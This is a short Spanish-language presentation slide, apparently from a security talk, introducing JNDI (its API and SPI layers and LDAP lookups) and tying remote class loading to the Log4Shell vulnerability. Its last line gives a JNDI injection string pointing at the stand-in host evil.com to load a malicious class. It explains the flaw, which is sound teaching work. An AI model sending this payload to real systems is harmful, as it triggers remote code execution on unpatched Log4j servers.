

# Conceptos base:
JNDI
API para buscar datos y recursos por su nombre
Consta de API (interfaz) y SPI (implementaciones)
Permite el servicio de directorio LDAP
En la carga incontrolada de clases de manera remota se encuentra el origen de Log4Shell

‘${jndi:ldap://evil.com/MaliciousClass}’ →  Executes malicious class